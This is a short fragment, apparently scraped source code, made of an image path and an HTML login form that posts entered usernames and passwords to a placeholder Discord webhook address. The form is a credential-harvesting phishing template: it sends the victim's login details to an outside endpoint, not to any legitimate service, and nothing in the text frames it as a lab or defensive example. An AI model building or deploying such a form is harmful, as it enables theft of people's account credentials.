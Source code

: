 <form action="https://discord-webhook-url.com" method="POST">
  <input name="username">
  <input name="password" type="password">
  <button type="submit">Log In</button>
</form>
